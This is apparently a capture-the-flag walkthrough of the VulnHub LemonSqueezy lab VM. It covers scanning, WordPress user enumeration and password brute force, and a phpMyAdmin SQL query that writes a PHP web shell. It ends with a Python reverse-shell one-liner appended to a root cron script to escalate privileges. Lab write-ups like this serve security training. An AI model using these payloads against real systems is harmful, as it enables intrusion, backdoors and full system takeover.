 #LEMONSQUEEZY: 1
**Today, we'll be looking at the LemonSqueezy machine on vulnhub.
You can download the machine here:**
<https://www.vulnhub.com/entry/lemonsqueezy-1,473/>

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A 192.168.88.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-17 10:28 EDT
Nmap scan report for 192.168.88.135
Host is up (0.00023s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:0F:4E:B3 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.23 ms 192.168.88.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```
The machine is running http only. Nothing special.

Let's use dirsearch to discover directories.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic1.png)
Interesting! The machine is running wordpress and phpmyadmin.
Let's check those out.

First, I'll try to enumerate usernames with wpscan.
```wpscan --url 192.168.88.136/wordpress -e u```
We found two users.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic2.png)

I tried searching for anything else but I didn't find anything so I brute forced the login password.

```wpscan --url 192.168.88.136/wordpress -U orange -P /usr/share/wordlists/rockyou.txt```
We got the password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic3.png)

I then found an interesting post.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic4.png)

I then tried multiple things but after that, I tried to log into phpmyadmin with this as the password.

We got in!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic5.png)

Now, I'll upload a shell using a SQL query.

```SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/backdoor.php"```

You can read this [article](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) on uploading shells on phpmyadmin.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic6.png)

We can see that our shell works.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic7.png)

Now, let's try to open a reverse shell.

I'll use a python reverse shell.

We got a shell!
You can stabalize your shell with these two commands.
```python -c 'import pty; pty.spawn("/bin/bash")'```
```export TERM=xterm```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic8.png)

Now, we move on to local enumeration.
I found an interesting file in crontab.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic9.png)

Let's check that file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic10.png)

We can see it's a python script.
Let's add a python shell to get a root shell as that file is being run by root.

We'll use the same shell we used before but modify the port.
```echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.128",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> logrotate```

Now, set up a netcat listner and wait for the script to run.

We are root!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic11.png)

